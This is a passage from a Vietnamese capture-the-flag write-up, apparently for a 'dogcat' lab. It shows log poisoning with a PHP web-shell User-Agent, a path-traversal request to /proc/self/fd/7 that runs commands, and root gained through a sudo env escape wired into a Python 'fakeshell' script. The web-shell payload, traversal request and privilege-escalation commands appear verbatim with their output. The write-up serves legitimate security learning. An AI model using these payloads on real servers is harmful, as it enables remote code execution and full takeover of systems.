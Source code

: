 Vậy, để đơn giản hóa quá trình, ta có thể tạo một "rev-shell" giả bằng cách thực hiện câu lệnh manually trong request, sau đó extract dữ liệu của response. Ta có thể thực hiện bằng một script python (fakeshell.py). Ta thực hiện chèn log poisoning và thực thi câu lệnh như sau:

Chèn User-Agent vào log:
```
User-Agent:<?php system($_GET['c']); ?>
```
Request thực thi câu lệnh
```
GET /?view=dogcat/../../../../proc/self/fd/7&ext=&c=id
```
Response trả về chứa kết quả của câu lệnh, ví dụ:
```
10.17.58.237 - - [14/May/2025:08:32:52 +0000] "GET /?view=dog HTTP/1.1" 200 564 "http://10.10.149.37/" "uid=33(www-data) gid=33(www-data) groups=33(www-data)"
```

### Linux Privilege Escalation

1. Enumerate
```
rce> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

rce> hostname
d2d52195b451

rce> uname -a
Linux d2d52195b451 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 GNU/Linux

rce> cat /proc/version
Linux version 4.15.0-96-generic (buildd@lgw01-amd64-004) (gcc version 7.5.0 (Ubuntu 7.5.0-3ubuntu1~18.04)) #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020
```
Ta có thể thấy đang thực thi câu lệnh dưới user www-data, dựa vào hostname có vẻ là một container Docker, sử dụng Ubuntu 18.04 (x86_64) và chạy trên nhân Linux 4.15.0-96-generic. Từ `ps` cũng có thể thấy apache đang phục vụ web.

2. Privilege Escalation: www-data -> root

Output từ `sudo -l`
```
User www-data may run the following commands on d2d52195b451:
    (root) NOPASSWD: /usr/bin/env
```

Công cụ không thể thiếu trong khi làm những lab priv escalation: https://gtfobins.github.io/.

Ta có thể đơn giản thực hiện câu lệnh sau trong gtfobins để chiếm quyền root
```
rce> sudo /usr/bin/env sh -c 'id'
uid=0(root) gid=0(root) groups=0(root)
```

Để tự động quá trình, script python trên sửa thành:
```py
params = {
    "view": "dogcat/../../../../proc/self/fd/7",
    "ext": "",
    "c": f"sudo /usr/bin/env sh -c '{cmd}'"
}
```
Xác nhận lại fake shell:
```bash
python3 fakeshell.py
rce> id
uid=0(root) gid=0(root) groups=0(root)
```
